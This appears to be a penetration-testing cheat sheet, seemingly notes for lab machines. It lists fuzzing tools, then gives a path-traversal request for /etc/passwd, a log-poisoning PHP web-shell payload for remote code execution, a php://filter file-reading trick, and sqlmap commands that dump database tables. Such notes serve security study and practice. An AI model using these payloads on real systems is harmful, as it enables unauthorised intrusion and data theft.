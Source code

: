 ### Directory bruteforcing / fuzzing scan
```bash
# wfuzz
# gobuster
# wpscan
# ffuf
# dirb


# ffuf subdomain, gobuster vhost
```

## Exploitation

### Local File Inclusion / Remote Code Execution

```bash
# Check for dot dot slash directory traversal
http://10.10.10.138/writeup/index.php?page=../../../../../../../../etc/passwd
# the above works due to poor sanitisation and typically an include() statement

# Log Poisoning
user-agent: <?php system($_GET["cmd"])?> # setting the user agent to appear in the log file

?file=<?php system($_GET["cmd"])?> #LFI to RCE

?file=/var/log/nginx/error.log&cmd=ls

# Convert to Base64 (decrypt with echo -n <RESULT> | base64 -d)
?file=php://filter/read=convert.base64-encode/resource=/etc/passwd

# Check for following files
C:\\boot.ini # windows
/etc/passwd # linux

```

### Automated SQL Injection
```bash
sqlmap - u <LINK>

sqlmap -r login.req --level 5 --risk 3 --dbs # displays the available database
sqlmap -r login.req -D <DATABASE> --tables
sqlmap -r login.req -D <DATABASE> -T <TABLE> --columns
sqlmap -r login.req -D <DATABASE> -T <TABLE> -C <COLUMN,COLUMN,COLUMN> --dump

# add --threads 4 for multithreading
# add --batch for a completely automated process

```
